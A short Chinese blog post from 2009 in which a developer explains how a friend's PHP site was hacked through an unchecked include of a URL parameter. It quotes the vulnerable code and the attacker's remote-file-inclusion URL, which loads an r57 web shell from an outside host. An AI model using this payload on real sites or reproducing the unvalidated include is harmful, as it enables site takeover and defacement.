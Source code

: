 ```yaml
---
title: 朋友网站被人黑了，黑的经过
author: 阿辉
date: 2009-01-17T12:22:00+00:00
categories:
- Php
tags:
- Php
keywords:
- Php
comments: true
showTags: true
showPagination: true
showSocial: false
showDate: true
showMeta: true
---
```

网站是四年前刚学PHP的时候帮朋友弄的，有些参数没有处理好，造成让人挂马。

php内有一段是这样的，目的是动态加载一个静态页
```php
$type.=".htm";  
include ($type);
```
$type是通过url传过来的值，如：  
`showhtml.php?type=index`

因为虚拟主机的是激活的，所以黑客用了这个地址:  
`/showhtml.php?type=http://evilc0der.com/r57.txt??`

<!--more-->

而`r57.txt`其实是一个PHP文件，是一个黑客工具，叫![r57shell](http://www.xfocus.net/tools/200508/1075.html)

打开上面的地址显示为：  
![/wp-content/uploads/baiduhi/ce6bd72a13f9f533d52af135.jpg](/wp-content/uploads/baiduhi/ce6bd72a13f9f533d52af135.jpg)  
然后通过upload file就可以替换首页了。

那个家伙还搞了一堆网址，估计都是有漏洞的。在这个页面内：
http://www.evilc0der.com/serverlar.html

解决办法到是简单，增加对$type的判断就是了。
